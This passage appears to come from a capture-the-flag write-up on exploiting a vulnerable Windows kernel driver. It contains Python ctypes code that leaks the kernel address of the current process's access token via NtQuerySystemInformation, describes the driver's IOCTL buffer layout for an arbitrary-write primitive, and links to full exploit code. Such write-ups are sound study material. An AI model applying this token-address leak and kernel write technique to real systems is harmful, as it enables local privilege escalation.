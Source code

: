 ```python
STATUS_INFO_LENGTH_MISMATCH = 0xC0000004
SystemExtendedHandleInformation = 64
def get_token_address():
    hProc = HANDLE(kernel32.GetCurrentProcess())
    pid = kernel32.GetCurrentProcessId()
    h = HANDLE()
    res = OpenProcessToken(hProc, TOKEN_QUERY, byref(h))
    if res == 0:
        print('[-] Error getting token handle: ')
        sys.exit(-1)

    # Find the handles associated with the current process.
    q = STATUS_INFO_LENGTH_MISMATCH
    out = DWORD(0)
    sz = 0
    while q == STATUS_INFO_LENGTH_MISMATCH:
        sz += 0x1000
        handle_info = (c_ubyte * sz)()
        q = ntdll.NtQuerySystemInformation(
                SystemExtendedHandleInformation,
                byref(handle_info),
                sz,
                byref(out)
            )

    # Parse handle_info to retrieve handles for the current PID
    handles = find_handles(pid, handle_info)
    hToken = filter(lambda x: x[0] == pid and x[2] == h.value, handles)

    if len(hToken) != 1: return None
    else: return hToken[0][1]
```

Without getting into the nitty gritty, this call leaks the address of every
kernel object associated to a handle and looks through the results in order to
identify the access token handle that belongs to the current process. Once it is
found, the code extracts the kernel-land address of the token.

[qsi]: https://docs.microsoft.com/en-us/windows/desktop/api/winternl/nf-winternl-ntquerysysteminformation "MSDN - Documentation for NtQuerySystemInformation"

## Write Limitations Require Creativity

Okay, after all of this effort and trouble, we still have one major hurdle: The
write that we have allows us to write anywhere, but does not allow us to control
the value of the write. This part takes a bit of additional reversing to
identify a code path in the driver that will return a value as close as possible
to `0xffffffffffffffff`.

First, it's important to understand the structure of the buffer being passed
into the IOCTL:

    +00 4B opcode [0..9]
    +04 4B padding
    +08 8B pointer to arguments buffer
    +10 8B pointer to result buffer


[1]: https://twitter.com/HackSysTeam "@HackSysTeam on Twitter"
[2]: https://nsec.io "NorthSec Official Website"
[sploit]: https://gist.github.com/alxbl/2fb9a0583c5b88db2b4d1a7f2ca5cdda "Full Exploit Code"
[3]: https://docs.microsoft.com/en-us/sysinternals/downloads/winobj "Windows Object Explorer"
[mnd]: https://www.magnumdb.com/search?q=IRP_MJ_DEVICE_CONTROL "IRP_MJ_DEVICE_CONTROL on MagNumDb"
[kaslr]: https://en.wikipedia.org/wiki/Address_space_layout_randomization#Microsoft_Windows "Kernel Address Space Layout Randomization"
[il]: https://docs.microsoft.com/en-us/windows/desktop/SecAuthZ/mandatory-integrity-control "Windows Process Integrity Levels"